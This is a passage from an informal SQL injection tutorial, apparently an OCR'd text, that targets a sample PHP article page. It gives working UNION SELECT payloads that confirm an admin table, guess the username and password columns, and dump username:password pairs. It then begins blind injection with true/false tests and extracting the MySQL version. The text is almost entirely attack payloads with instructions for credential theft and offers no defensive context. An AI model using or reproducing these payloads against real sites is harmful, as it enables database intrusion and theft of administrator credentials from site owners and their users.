 here we have a job to do!!

if the MySQL Version is < 5 (i.e 4.1.33, 4.1.12...)

lets see that the table admin exist!

http://www.website.com/articles.php?id=3 union all select 1,2,3,4,5 from admin/*

and here we see the number 3 that we had in the screen

now, we knows that the table admin exists

here we had to check column names:

http://www.website.com/articles.php?id=3 union all select 1,2,username,4,5 from admin/*

if we get an error we have to try another column name

and if it work we get username displayed on screen (example: admin,moderator,super moderator...)

after that we can check if column password exists

we have this

http://www.website.com/articles.php?id=3 union all select 1,2,password,4,5 from admin/*

and oups! we see password on the screen in a hash or a text

now we have to use 0x3a for having the informations like that username:password ,dmin:unhash...

http://www.website.com/articles.php?id=3 union all select 1,2,concat(username,0x3a,password),4,5 from admin/*


this is the sample SQL Injection , now, we will go to the blind sql injection (more difficult)


[3]* -Exploiting Blind SQL Injection Vuln :

first we should check if website is vulnerable for example

http://www.website.com/articles.php?id=3

and to test the vulnerability we had to use

http://www.website.com/articles.php?id=3 and 1=1 ( we havn't any error and the page loads normally)

and now

http://www.website.com/articles.php?id=3 and 1=2

here we have some problems with text, picture and some centents ! and it's good! this website is vulnerable for Blind SQL Injection

we have to check MySQL Version

[-] Getting MySQL Version :

we use substring in blind injection to get MySQL Version

http://www.website.com/articles.php?id=3 and substring(@@version,1,1)=4

we should replace the 4 with 5 if the version is 5

http://www.website.com/articles.php?id=3 and substring(@@version,1,1)=5
